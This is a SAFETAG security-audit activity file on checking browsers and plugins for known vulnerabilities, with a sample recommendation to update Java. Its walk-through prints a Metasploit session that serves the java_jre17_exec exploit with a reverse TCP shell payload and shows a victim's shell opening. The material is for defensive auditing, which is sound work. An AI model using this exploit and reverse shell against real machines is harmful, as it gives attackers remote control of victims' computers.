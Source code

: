 ```yaml
---
title: Check Browser and Plugin Vulnerabilities
approaches:
  - Technical
position: 50
authors:
  - SAFETAG
remote_options:
  - with-support
skills_required: []
skills_trained: []
summary: |
  Though modern browsers are better at self-updating, and the prevalence of
  powerful plugins like flash and java are slowly declining, it is valuable to
  ensure that the browsers in use have updated plugins and are themselves
  updated.
overview: ''
materials_needed: |
  * Metasploit
considerations: ''
walk_through: |
  ###### Outdated Java browser plugins

  While the threat described below is more severe if carried out by a local
  attacker (as they can more readily direct the victim to a malicious Web site),
  it also works remotely. In fact, if a user can be tricked, by a remote
  attacker, into clicking on a malicious email or Web link, attacks like this
  represent a significant perimeter threat. By compromising the victim’s
  machine, they can give the attacker a local point-of-presence without
  requiring the attacker to crack WPA keys or gain local access in some other
  way.

  Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious
  Web site:

  ```
  $ msfconsole

  I love shells --egypt

       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
  + -- --=[ 1114 exploits - 627 auxiliary - 178 post
  + -- --=[ 307 payloads - 30 encoders - 8 nops

  msf > use exploit/multi/browser/java_jre17_exec

  msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp
  PAYLOAD => java/shell/reverse_tcp

  msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
  LHOST => 192.168.1.123

  msf exploit(java_jre17_exec) > set SRVPORT 8081
  SRVPORT => 8081

  msf exploit(java_jre17_exec) > set URIPATH java_test
  URIPATH => java_test

  msf exploit(java_jre17_exec) > run
  [*] Exploit running as background job.
  ```

  Step 2: At this point, any local user who visits
  http://192.168.1.123:8081/java_test, and who is running a sufficiently
  out-of-date version of the Java browser plugin, stands a good chance of giving
  the attacker full access to his computer:

  ```
  [*] Started reverse handler on 192.168.1.123:4444

  msf exploit(java_jre17_exec) |

  [*] Using URL: http://0.0.0.0:8081/java_test
  [*] Local IP: http://192.168.1.123:8081/java_test
  [*] Server started.

  msf exploit(java_jre17_exec) |

  <remote shell|
  ```

  Figure 1: Attacker in control of the victim’s computer through a remote
  command shell
recommendations: |
  **Sample Recommendation for outdated Java**

  One or more of the organization’s laptops were seen to be running an outdated,
  known-vulnerable version of the Java plugin for Internet Explorer.

  This version contains a vulnerability that is easily exploitable using one of
  the recent Java exploit modules from the widely available Metasploit security
  auditing framework. These modules allow an attacker to gain complete control
  over the computer of a victim who visits a malicious Web site hosted anywhere
  on the Internet. If the attacker is inside the office LAN, they can easily
  trick the victim into visiting that malicious Web site without the victim even
  knowing it.

  At least one of the organization’s computers is running an outdated Java
  browser plugin, and exploit code is widely-available for several critical
  vulnerabilities in versions older than “Java 7, update 16.” All of the
  organization’s Java installations should be updated to the latest version.
  This can be troublesome, as (unlike the Windows operating system itself) Java
  plugins sometimes require user input before they will install updates.
organization_size_under: 25
time_required_minutes: 30
---
```

